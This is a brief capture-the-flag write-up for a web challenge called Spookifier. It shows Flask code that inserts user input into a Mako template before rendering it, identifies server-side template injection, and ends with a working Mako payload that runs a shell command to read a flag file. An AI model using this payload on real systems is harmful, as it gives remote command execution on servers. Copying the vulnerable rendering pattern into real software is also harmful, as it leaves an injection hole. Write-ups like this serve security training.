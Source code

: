 # [Web] Spookifier

This web application that uses a templates to change the font of an input text. As a template is used, this calls for SSTI.
We do have access to the code and the template engine used is Mako, via `flask_mako`.

```python
@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
```

Especially the `spookify` function calls a `generate_render` function:

```python
def generate_render(converted_fonts):
        result = '''
                <tr>
                        <td>{0}</td>
        </tr>
                <tr>
                <td>{1}</td>
        </tr>
                <tr>
                <td>{2}</td>
        </tr>
                <tr>
                <td>{3}</td>
        </tr>
        '''.format(*converted_fonts)
        return Template(result).render()
```

We can abuse it using one of the payloads found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako)

```python
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```
